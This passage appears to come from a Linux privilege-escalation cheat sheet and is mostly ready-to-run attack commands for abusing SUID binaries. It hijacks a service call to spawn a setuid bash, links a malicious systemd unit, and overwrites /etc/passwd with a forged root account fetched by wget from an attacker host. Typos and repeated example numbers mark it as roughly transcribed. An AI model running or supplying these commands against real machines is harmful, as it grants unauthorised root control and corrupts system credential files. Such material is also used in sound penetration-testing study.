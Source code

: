 Privilege Escalation

```ps1
Find the SUID Binary

find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Output Example: /bin/tools/webserver-status
ls -la /bin/tools/webserver-status

Test the SUID Binary 

/bin/tools/webserver-status
strings /bin/tools/webserver-status
Output Example: /usr/sbin/service apache2 status

Absue the SUID Binary

fucntion /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
/bin/tools/webserver-status
id && whoami
```

Example 5 (/bin/systemctl)

Privilege Escalation

Copy line by line inside the victim low priv shell
```ps1
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
/bin/bash -p
id && whoami
```

Example 5 (Copy - /bin/cp)

Privilege Escalation

Victim
```ps1
find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Copy the contents of /etc/passwd to your local machine inside a new file called "passwd"
```
Attacker
```ps1
Run the following command locally: openssl passwd -1 -salt ignite NewRootPassword
Copy the output
Add the following inside the local passwd file
echo "root2:<output>:0:0:root:/root:/bin/bash" >> passwd // Replace <output> with the copied output
python -m SimpleHTTPServer 9000
```
Victim
```ps1
wget -O /tmp/passwd http://10.10.10.10:9000/passwd
cp /tmp/passwd /etc/passwd
su root2
Password: NewRootPassword
id && whoami

// Replace Attacker IP & Port
```